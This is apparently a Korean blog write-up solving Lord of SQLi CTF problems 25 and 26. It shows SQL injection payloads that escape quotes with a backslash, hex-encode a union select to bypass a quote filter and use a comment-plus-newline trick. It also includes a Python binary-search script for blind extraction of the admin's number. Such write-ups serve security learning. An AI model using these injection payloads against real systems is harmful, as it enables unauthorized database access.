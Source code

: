 ```yaml
---
title: "[LOS] 25,26번 문제 풀이(green_dragon,red_dragon)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 25번
  - los 26번
  - los green_dragon
  - los red_dragon
  
toc: true
toc_sticky: true
toc_label: "25,26번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 25번,26번 문제에 대한 풀이입니다. 
{: .notice--warning}


# 25번(green_dragon)
## 문제
![image](https://user-images.githubusercontent.com/33647663/159745329-5577e1f1-a565-4af9-83c1-c8c80515bf51.png)

## 풀이
우선 필터링 된 문자들 중에 싱글 쿼터(')가 있습니다. 싱글쿼터가 필터링 된 상황에서 문자열을 이스케이핑 하기 위해서 이스케이프 문자인(\\)을 사용해 줍니다.

id = \\ 을 입력하면 다음과 같이 pw부분까지 문자열로 처리되어서 pw부분에 바로 db명령어 수행이 가능합니다.

```sql
select id,pw from prob_green_dragon where id='\' and pw=' or 1#'
```

![image](https://user-images.githubusercontent.com/33647663/159746105-26a60e43-ec2b-444d-9b27-e5588dfe4f36.png)

정상적으로 쿼리가 실행되었다면, ```if(result['id'])```가 참이되어 두번째 쿼리의 결과가 나왔어야 하지만, 아무런 결과가 나오지 않고 있습니다. 

DB에 아무런 데이터가 없을 것으로 추측하여 union select를 해봅니다.

![image](https://user-images.githubusercontent.com/33647663/159746406-784a39e7-d6f7-42d0-af58-1fc1e8a42aec.png)

예상대로 DB에는 아무런 데이터가 없었고, union select 1,2를 하여 result['id'] = 1, result['pw'] = 2 가 들어가서 query 2번이 실행되었습니다.

이번에도 동일한 로직으로 id=\\을 넣어주고, pw에 어떠한 값을 넣어줘서 쿼리의 결과 값이 'admin'이 나오면 문제가 풀립니다.

테이블에는 데이터가 없기 때문에 query1의 결과로 나온 id,pw가 다음과 같이 출력되어야 query2에서도 union select로 인해서 'admin'의 결과가 나옵니다.

```
id = \
pw = union select 'admin'#
```

우선 id에 들어가는 ```\```표시는 0x5c로 바꿔주고, 싱글 쿼터(')를 필터링 하고 있기 때문에 pw에 들어가는 값을 0x 형식으로 표현하여 우회해 줍니다.
```union select 'admin'#```을 전부 16진수로 바꿔서 표현하는 코드는 다음과 같습니다.

```python
test = " union select 0x61646d696e#"
for character in test:
    print(str(hex(ord(character)))[2:],end='')

# 20756e696f6e2073656c6563742030783631363436643639366523
```

이제 이 결과 값을 이용해서 다음과 같이 전체 쿼리문을 작성해 줍니다.

```
id = \
pw = union select 0x5c,0x20756e696f6e2073656c6563742030783631363436643639366523

```

![image](https://user-images.githubusercontent.com/33647663/159748486-8c10e0c8-873e-499c-a7bd-edee510473e2.png)

# 26번(red_dragon)
## 문제

![image](https://user-images.githubusercontent.com/33647663/159748785-9b67c3b7-cd40-4aff-8682-6339c423b9f3.png)

## 풀이
우선 id에 ```'=0;%00```을 넣어서 true일 때 어떤 값이 반환되는지 봅니다.

![image](https://user-images.githubusercontent.com/33647663/159749259-c13e039d-abfe-46d3-8e1c-ae7f112f83a7.png)

테이블에 admin 데이터가 출력됩니다. 

문제의 클리어 조건은 다음과 같으며 admin의 no 값을 알아내야 합니다.

```php
$query = "select no from prob_red_dragon where id='admin'";
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if($result['no'] === $_GET['no']) solve("red_dragon");
```

no 값에 들어가는 검증을 **is_numeric** 함수가 하고 있습니다. 이때, is_numeric은 오류를 줄이기 위해서 맨 앞자리에 공백문자가 온다면 이를 그대로 처리해줍니다.

![image](https://user-images.githubusercontent.com/33647663/159749943-dc1ba1fe-27aa-4ff8-ad99-8a3290bcc7a0.png)

그렇다면 id 부분에서 한줄 주석 처리를 통해서 전부 주석 처리를 하고, no 부분에 %0a123과 같이 입력한다면, 한줄 주석 이후까지의 명령어에 이어서 숫자를 사용할 수 있습니다.

다음과 같이 작성해 줍니다.
```
id='||no>#
```

![image](https://user-images.githubusercontent.com/33647663/159750285-7b5aa2af-5e5b-4ad3-bcc7-601a0aee679d.png)

위의 쿼리문은 #부분부터 주석이 처리가 되고, 줄 바꿈 문자를 만난다음엔 주석 처리가 되지 않기 때문에 아래와 동일한 쿼리문입니다.

```sql
select id from prob_red_dragon where id=''||no>1000
```

즉 id의 no>1000과 같이 대소 비교가 가능해 집니다. 이를 이용하여 코드를 통해서 반복처리를 해줍니다. 

```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id=%27||no<%23&no=%0a"
url2 = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id=%27||no=%23&no=%0a"
cookies = {"PHPSESSID" : "595dl7ejl1io50mt9bhg0dbmpk"} 

start,end = 100000000,1000000000
while True:
    search = int((start + end)/2)
    response = requests.get(url + str(search),cookies=cookies)
    if("Hello admin" in response.text):
        end = search
    else:
        response = requests.get(url2 + str(search),cookies=cookies)
        if("Hello admin" in response.text):
            print("find the no",search)
            break
        start = search
    print(search)

```

숫자가 크기 때문에 이진 탐색 알고리즘을 사용했습니다.
결과는 다음과 같습니다.
```
550000000
775000000
662500000
606250000
578125000
592187500
585156250
588671875
586914062
586035156
586474609
586694335
586584472
586483191
586482333
586481904
586482118
586482011
586482064
586482037
586482024
586482017
find the no 586482014
```


![image](https://user-images.githubusercontent.com/33647663/159750859-00e954c5-8737-4a19-a220-c86a11de7f51.png)